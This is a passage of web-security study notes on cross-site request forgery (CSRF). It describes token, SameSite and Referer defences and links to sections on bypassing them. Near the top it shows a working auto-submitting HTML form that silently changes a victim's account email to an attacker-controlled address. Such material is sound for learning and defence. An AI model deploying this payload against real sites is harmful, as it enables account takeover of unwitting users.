 ## Post Method

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Common defences against CSRF

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.
    - [bypass CSRF token validation](#bypassing-csrf-token-validation)
- SameSite cookies - SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site. Since 2021, Chrome enforces Lax SameSite restrictions by default. As this is the proposed standard, we expect other major browsers to adopt this behavior in future.
    - [Bypassing SameSite cookie restrictions](#bypassing-samesite-cookie-restrictions)
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.
    - [Bypassing Referer-based CSRF defenses](#bypassing-referer-based-csrf-defenses)

## Bypassing CSRF token validation

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token. Otherwise, the server will refuse to perform the requested action.

ex:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```
